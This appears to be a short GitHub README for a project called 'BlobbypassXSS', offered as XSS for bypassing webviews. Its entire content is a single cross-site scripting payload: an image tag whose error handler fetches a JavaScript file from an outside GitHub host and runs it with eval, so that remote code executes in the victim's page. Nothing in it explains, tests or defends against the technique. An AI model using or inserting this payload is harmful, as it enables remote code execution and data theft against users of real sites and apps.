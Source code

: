 # BlobbypassXSS
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Ajayadla/BlobbypassXSS-2.0/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
